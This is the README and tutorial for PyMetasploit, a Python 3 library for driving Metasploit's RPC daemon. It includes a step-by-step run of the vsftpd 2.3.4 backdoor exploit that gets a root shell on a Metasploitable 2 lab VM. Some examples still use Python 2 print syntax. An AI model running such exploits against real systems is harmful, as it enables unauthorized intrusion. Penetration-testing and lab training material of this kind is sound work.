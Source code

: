 PyMetasploit for Python 3 - a full-fledged msfrpc library for Python
=======

PyMetasploit is a full-fledged `msfrpc` library for Python. It is meant to interact with the msfrpcd daemon that comes
with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides
such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize
`msfrpcd` and optionally (highly recommended) PostgreSQL.

# Update for Python 3

This is a forked and updated version of PyMetasploit for Python 3.
See example.py and the tutorial below for more information.
Original project  : https://github.com/allfro/pymetasploit

# Requirements

Before we begin, you'll need to install the following components:

* **Metasploit:** https://github.com/rapid7/metasploit-framework
* **PostgreSQL (Optional):** http://www.postgresql.org

Installing PostgreSQL is highly recommended as it will improve response times when querying `msfrpcd` (Metasploit RPC
daemon) for module information.

# Tutorial

## Starting `msfrpcd`

`msfrpcd` accepts the following arguments:

```bash
$ ./msfrpcd -h

   Usage: msfrpcd <options>

   OPTIONS:

       -P <opt>  Specify the password to access msfrpcd
       -S        Disable SSL on the RPC socket
       -U <opt>  Specify the username to access msfrpcd
       -a <opt>  Bind to this IP address
       -f        Run the daemon in the foreground
       -h        Help banner
       -n        Disable database
       -p <opt>  Bind to this port instead of 55553
       -u <opt>  URI for Web server
```

The only parameter that is required to launch `msfrpcd` is the `-P` (password) parameter. This specifies the password
that will be used to authenticate users to the daemon. As of this writing, `msfrpcd` only supports one username/password
combination. However, the same user can log into the daemon multiple times. Unless specified otherwise, the `msfrpcd`
daemon listens on port 55553 on all interfaces (`0.0.0.0:55553`).

For the purposes of this tutorial let's start the `msfrpcd` daemon with a minimal configuration:

```bash
$ ./msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2014-04-19 23:49:39 -0400.
```

The `-f` parameter tells `msfrpcd` to remain in the foreground and the `-n` parameter disables database support.
Finally, the `-a` parameter tells `msfrcpd` to listen for requests only on the local loopback interface (`127.0.0.1`).

## `MsfRpcClient` - Brief Overview

### Connecting to `msfrpcd`

Let's get started interacting with the Metasploit framework from python:

```python
>>> from metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('mypassword')
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Let's take a
look at its underbelly:

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'sessionid', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an Exploit

Just like the Metasploit console, you can retrieve a list of all the modules that are available. Let's take a look at
what exploits are currently loaded:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

We can also retrieve a list of `auxiliary`, `encoders`, `nops`, `payloads`, and `post` modules using the same syntax:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Now let's interact with one of the `exploit` modules:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

If all is well at this point, you will be able to query the module for various pieces of information such as author,
description, required run-time options, etc. Let's take a look:

```python
>>>  print exploit.description

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
['hdm <hdm@metasploit.com>', 'MC <mc@metasploit.com>']
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.required # Required options
['ConnectTimeout', 'RPORT', 'RHOST']
```

That's all fine and dandy but you're probably really itching to pop a box with this library right now, amiright!? Let's
do it! Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our target. Luckily it's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded in PyMetasploit. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

You can also specify or retrieve other options as well, as long as they're listed in `exploit.options`, using the same
method as shown above. For example, let's get and set the `VERBOSE` option:

```python
>>> exploit['VERBOSE']
False
>>> exploit['VERBOSE'] = True
>>> exploit['VERBOSE']
True
>>>
```

Awesome! So now we're ready to execute our exploit. All we need to do is select a payload:

```python
>>> exploit.payloads
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

Excellent! It looks like our exploit ran successfully. How can we tell? The `job_id` key contains a number. If the
module failed to execute for any reason, `job_id` would be `None`. For long running modules, you may want to poll the
job list by checking `client.jobs.list`. Since this is a fairly quick exploit, the job list will most likely be empty
and if we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'ndouba', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

Success! We managed to pop the box! `client.sessions.list` shows us that we have a live session with the same `uuid` as
the one we received when executing the module earlier (`exploit.execute()`). Let's interact with the shell:

```python
>>> shell = client.sessions.session(1)
>>> shell.write('whoami\n')
>>> print shell.read()
root
>>> # Happy dance!
```

This is just a sample of how powerful PyMetasploit can be. Use your powers wisely, Grasshopper, because with great power
comes great responsibility – unless you are a banker.

# Questions?

Email me at ndouba.at.gmail.com